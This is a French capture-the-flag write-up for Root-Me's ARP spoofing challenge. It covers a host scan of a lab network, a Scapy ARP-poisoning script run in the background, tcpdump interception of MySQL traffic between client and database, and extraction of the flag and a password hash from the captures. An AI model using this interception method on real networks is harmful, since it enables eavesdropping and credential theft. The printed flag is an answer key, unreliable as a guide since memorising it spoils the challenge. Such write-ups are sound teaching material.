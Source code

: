 # [ARP Spoofing - Écoute active](https://www.root-me.org/fr/Challenges/Reseau/ARP-Spoofing-Ecoute-active)

L'objectif de ce projet est de réaliser une attaque de type ARP Spoofing pour intercepter les communications réseau entre un client et une base de données.

## Analyse du réseau

### Configuration réseau locale

En exécutant la commande `ifconfig` sur la machine, on identifie que notre interface réseau utilise l'adresse IP `172.18.0.3` et le masque de sous-réseau `255.255.0.0`.

```
root@fac50de5d760:~# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.18.0.3  netmask 255.255.0.0  broadcast 172.18.255.255
        ether 02:42:ac:12:00:03  txqueuelen 0  (Ethernet)
        RX packets 56  bytes 8009 (8.0 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 36  bytes 7249 (7.2 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

### Détection des hôtes sur le réseau

En lançant une analyse avec `nmap`, on identifie les hôtes actifs sur le réseau :

```
root@fac50de5d760:~# nmap -sn 172.18.0.0/16
Starting Nmap 7.80 ( https://nmap.org ) at 2024-12-23 23:30 UTC
Nmap scan report for 172.18.0.1
Host is up (0.000023s latency).
MAC Address: 02:42:FC:62:FE:C1 (Unknown)
Nmap scan report for db.arp-spoofing-dist-2_default (172.18.0.2)
Host is up (0.000028s latency).
MAC Address: 02:42:AC:12:00:02 (Unknown)
Nmap scan report for client.arp-spoofing-dist-2_default (172.18.0.4)
Host is up (0.000037s latency).
MAC Address: 02:42:AC:12:00:04 (Unknown)
Nmap scan report for fac50de5d760 (172.18.0.3)
Host is up.
```

On obtient ainsi la configuration réseau suivante :

| Hôte            | Adresse IP | Adresse MAC       |
| --------------- | ---------- | ----------------- |
| Routeur         | 172.18.0.1 | 02:42:FC:62:FE:C1 |
| Base de données | 172.18.0.2 | 02:42:AC:12:00:02 |
| Machine locale  | 172.18.0.3 | 02:42:AC:12:00:03 |
| Client          | 172.18.0.4 | 02:42:AC:12:00:04 |

## Mise en place de l'attaque

Le script Python [`arp_spoofing.py`](./arp_spoofing.py) utilise Scapy pour envoyer des paquets ARP falsifiés. Ces paquets redirigent le trafic entre le client et la base de données à travers notre machine.

On lance le script Python en arrière-plan :

```bash
python3 ./arp_spoofing.py &
```

## Capture du trafic réseau

Une fois le trafic redirigé via notre machine, nous utilisons `tcpdump` pour écouter les paquets transitant sur le port MySQL (3306).

```bash
tcpdump port 3306 -vv -X
```

Les paquets capturés sont fournis dans le fichier [`capture.txt`](./capture.txt) et un extrait de la capture est affichée ci-dessous :

```
tcpdump: listening on eth0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
...
23:49:02.075669 IP (tos 0x0, ttl 64, id 17792, offset 0, flags [DF], proto TCP (6), length 130)
    db.arp-spoofing-dist-2_default.mysql > client.arp-spoofing-dist-2_default.46254: Flags [P.], cksum 0x58a0 (incorrect -> 0x8703), seq 1:79, ack 1, win 510, options [nop,nop,TS val 1609413276 ecr 1129465516], length 78
	0x0000:  4500 0082 4580 4000 4006 9cca ac12 0004  E...E.@.@.......
	0x0010:  ac12 0003 0cea b4ae ff57 9c49 e380 527a  .........W.I..Rz
	0x0020:  8018 01fe 58a0 0000 0101 080a 5fed b29c  ....X......._...
	0x0030:  4352 46ac 4a00 0000 0a35 2e37 2e34 3100  CRF.J....5.7.41.
	0x0040:  0800 0000 7459 0d76 7125 5511 00ff ff08  ....tY.vq%U.....
	0x0050:  0200 ffc1 1500 0000 0000 0000 0000 007d  ...............}
	0x0060:  355e 3846 0c47 6f0c 0f4d 7600 6d79 7371  5^8F.Go..Mv.mysq
	0x0070:  6c5f 6e61 7469 7665 5f70 6173 7377 6f72  l_native_passwor
	0x0080:  6400                                     d.
23:49:02.075677 IP (tos 0x0, ttl 63, id 17792, offset 0, flags [DF], proto TCP (6), length 130)
    db.arp-spoofing-dist-2_default.mysql > client.arp-spoofing-dist-2_default.46254: Flags [P.], cksum 0x58a0 (incorrect -> 0x8703), seq 1:79, ack 1, win 510, options [nop,nop,TS val 1609413276 ecr 1129465516], length 78
	0x0000:  4500 0082 4580 4000 3f06 9dca ac12 0004  E...E.@.?.......
	0x0010:  ac12 0003 0cea b4ae ff57 9c49 e380 527a  .........W.I..Rz
	0x0020:  8018 01fe 58a0 0000 0101 080a 5fed b29c  ....X......._...
	0x0030:  4352 46ac 4a00 0000 0a35 2e37 2e34 3100  CRF.J....5.7.41.
	0x0040:  0800 0000 7459 0d76 7125 5511 00ff ff08  ....tY.vq%U.....
	0x0050:  0200 ffc1 1500 0000 0000 0000 0000 007d  ...............}
	0x0060:  355e 3846 0c47 6f0c 0f4d 7600 6d79 7371  5^8F.Go..Mv.mysq
	0x0070:  6c5f 6e61 7469 7665 5f70 6173 7377 6f72  l_native_passwor
	0x0080:  6400                                     d.
...
23:49:02.078000 IP (tos 0x0, ttl 64, id 17799, offset 0, flags [DF], proto TCP (6), length 174)
    db.arp-spoofing-dist-2_default.mysql > client.arp-spoofing-dist-2_default.46254: Flags [P.], cksum 0x58cc (incorrect -> 0x26bc), seq 364:486, ack 418, win 508, options [nop,nop,TS val 1609413278 ecr 1129465519], length 122
	0x0000:  4500 00ae 4587 4000 4006 9c97 ac12 0004  E...E.@.@.......
	0x0010:  ac12 0003 0cea b4ae ff57 9db4 e380 541b  .........W....T.
	0x0020:  8018 01fc 58cc 0000 0101 080a 5fed b29e  ....X......._...
	0x0030:  4352 46af 0100 0001 012c 0000 0203 6465  CRF......,....de
	0x0040:  6606 666c 6167 6462 0466 6c61 6704 666c  f.flagdb.flag.fl
	0x0050:  6167 0466 6c61 6704 666c 6167 0c2d 00fc  ag.flag.flag.-..
	0x0060:  0300 00fd 0110 0000 0036 0000 0335 6669  .........6...5fi
	0x0070:  7273 7420 7061 7274 206f 6620 7468 6520  rst.part.of.the.
	0x0080:  666c 6167 3a20 6c31 7474 6572 346c 6c79  flag:.l1tter4lly
	0x0090:  5f34 5f63 3470 7475 7233 5f74 6833 5f66  _4_c4ptur3_th3_f
	0x00a0:  6c34 6707 0000 04fe 0000 2100 0000       l4g.......!...
23:49:02.078006 IP (tos 0x0, ttl 63, id 17799, offset 0, flags [DF], proto TCP (6), length 174)
    db.arp-spoofing-dist-2_default.mysql > client.arp-spoofing-dist-2_default.46254: Flags [P.], cksum 0x58cc (incorrect -> 0x26bc), seq 364:486, ack 418, win 508, options [nop,nop,TS val 1609413278 ecr 1129465519], length 122
	0x0000:  4500 00ae 4587 4000 3f06 9d97 ac12 0004  E...E.@.?.......
	0x0010:  ac12 0003 0cea b4ae ff57 9db4 e380 541b  .........W....T.
	0x0020:  8018 01fc 58cc 0000 0101 080a 5fed b29e  ....X......._...
	0x0030:  4352 46af 0100 0001 012c 0000 0203 6465  CRF......,....de
	0x0040:  6606 666c 6167 6462 0466 6c61 6704 666c  f.flagdb.flag.fl
	0x0050:  6167 0466 6c61 6704 666c 6167 0c2d 00fc  ag.flag.flag.-..
	0x0060:  0300 00fd 0110 0000 0036 0000 0335 6669  .........6...5fi
	0x0070:  7273 7420 7061 7274 206f 6620 7468 6520  rst.part.of.the.
	0x0080:  666c 6167 3a20 6c31 7474 6572 346c 6c79  flag:.l1tter4lly
	0x0090:  5f34 5f63 3470 7475 7233 5f74 6833 5f66  _4_c4ptur3_th3_f
	0x00a0:  6c34 6707 0000 04fe 0000 2100 0000       l4g.......!...
```

## Extraction des données

En analysant les paquets capturés, on identifie :
- La réponse à une requête MySQL contenant le flag `l1tter4lly_4_c4ptur3_th3_fl4g`.
- Le hash du mot de passe de la base de données : `c14482ff0488945195379dcb6c2c88fe9adff6ee`.
